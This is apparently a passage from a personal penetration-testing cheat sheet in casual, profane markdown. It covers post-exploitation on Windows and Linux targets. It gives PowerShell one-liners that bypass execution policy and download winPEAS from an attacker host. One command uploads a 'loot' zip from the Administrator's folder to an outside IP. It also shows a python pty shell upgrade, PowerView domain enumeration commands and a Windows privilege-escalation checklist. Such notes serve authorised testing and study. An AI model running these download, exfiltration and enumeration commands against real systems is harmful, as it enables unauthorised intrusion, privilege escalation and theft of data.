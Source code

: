 YOU MUST RUN THE SCRIPT LIKE SO:
`powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1`

You can also run the powershell command above as a one-liner:
`powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://[IP]/winPEAS.bat, 'winpeas.bat')`

If you wanna be wild, you can use **exe2hex** to convert to a script that recreates the file from hex string via non-interactive methods.  A bit over the top, but probably helps bypass some bullshit.

`powershell.exe (New-Object System.Net.WebClient).UploadFile('C:\Users\Administrator\20220204195540_loot.zip', 'http://10.6.64.57/20220204195540_loot.zip')`
## Upgrading Non-Interactive Shell
Sick of not getting command feedback for shit on netcat?

TIME TO UPGRADE
`python -c 'import pty; pty.spawn("/bin/bash")'`
## PowerView Enumeration
- Enumerate Domain Users
	`Get-NetUser|select cn`

- Enumerate Domain Groups
	`Get-NetGroup -GroupName *admin*`

- Enumerate File Shares
	`Invoke-ShareFinder`

- Enumerate PCs on the domain
	`Get-NetComputer -fulldata | select`
## Privilege Escalation
Once you have a stable shell, then you need to up your privileges to read everything.  There's a lot of methods on this, and they can be OS specific, so we are going to separate them into different nodes.

But to begin with, you should see who you are on the system with the low priv shell.
`whoami`

You might be able to gain insight on the machine's function by checking the hostname.
`hostname`

Checking IP information might give us info on potential as a pivot point.
`ipconfig/ifconfig`
`route print/route`

You can also use `netstat` to get a list of all connections on the machine (might reveal new open ports or something
`netstat -anp`

### Windows Privesc
- LIST OF THINGS WORTH CHECKING:
	- Username and hostname |  `whoami`
	- Group memberships of the current user | `whoami /groups`
	- Existing users and groups | `net user, Get-Localuser, Get-LocalGroup, Get-LocalGroupMember`
	- Operating system, version and architecture | `systeminfo`
	- Network information | `ipconfig /all, route print,netstat -ano`
	- Installed applications | `Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`
	- Running processes  | `Get-Process`
